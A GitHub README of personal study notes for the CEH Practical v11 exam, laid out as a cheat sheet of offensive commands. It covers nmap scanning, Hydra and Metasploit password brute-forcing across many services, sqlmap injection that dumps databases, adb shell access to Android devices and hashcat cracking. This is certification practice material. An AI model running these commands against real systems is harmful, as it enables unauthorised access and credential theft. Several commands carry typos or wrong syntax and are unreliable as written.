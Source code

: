 # Practicemyself

# ............................................. CEHvs11 ...............................................

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.


### Marks:
```
SQL= 2
Net User= 1
Nmap= 2 to find OS
Wireshark= 3
FTP= 2
Wordpress= 1
Secret File= 1 
Android= 1
Crypto=6
Stegnography= 1
```

## So let's start >>>>>>

### 1. Find the IP target.
 ```
  $ ip addr or
  $ ifconfig
  $ netdiscover -r IP/24
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  
 May be IP targets are same. For me, this is the IP (172.16.0.0/24) for my target.
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  $ wpscan --url IP -u root -P passwdfile.txt
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
  
 I was faced problems with WP Scanner to bruteforicing, I recommend to use Metasploit for bruteforcing in Wordpress passwod.
 keep it mind:- Password wordlist are like same but try to find exact password lists.
  
 Using Metasploit==>
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. Hydra
``` 
 Use for FTP:
     $ hydra -l user -P passlist.txt ftp://IP
 Use for SSH:
     $ hydra -l <username> -P passwdlist.txt IP -t 4 ssh
 Use for Web Post:
     $ hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

- hydra -L usernames.txt -P pass.txt <IP> mysql
- hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
- hydra -V -f -L <userslist> -P <passwlist> ***rdp***://<IP>`
- hydra -P common-snmp-community-strings.txt target.com snmp
- hydra -l Administrator -P words.txt 192.168.1.12 smb t 1
```

### 8. FTP
```
FTP Connect
  $ ftp IP
  
  After connect with FTP go to the file
  $ get file.txt
  $ get file1.txt

When I was first connect from the parot server, I did'nt get the file. So I have connected from winodws machine, then i had got the file easily.   
 
https://www.javatpoint.com/ftp-commands
https://www.serv-u.com/linux-ftp-server/commands
```
### 9. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap IP -sV -p 5555
  
  apt install adb (if not available
  Command:
  $ apt connect IP:5555
  $ adb shell
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 10. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 11. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 12. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 hash calculator
Wpscan
Nmap
Metasploit
Hydra
Wireshark
OWASP ZAP  
RDP
```
### 13. Command Injection (DVWA)
```
DVWA:
Path: C:\wamp64\www\DVWA\hackable\uploads\maybefile

View a file cmd: "type"
Decrypt - https://hashes.com/en/decrypt/hash
```
### 14 SQL Injection with SQLmap:
  ```
  $ sqlmap -u http://site.com?id=1 --cookie="cookies" --risk 3 --level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/?id=1&Submit=Submit" --cookie="cookies1;cookies2" --data="data" --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/cookies.php" --cookie="cookies1;cookies2" --data="data" -p id --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump
```
### 15. Wireshark
```
Filters:
To find DOS (SYN and ACK) : tcp.flags.syn == 1, tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
     Shortcut: Click tools > Credentials

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
```


## Google is your Best Friend
### Everythings are availble on Google
#### Good Luck 👍
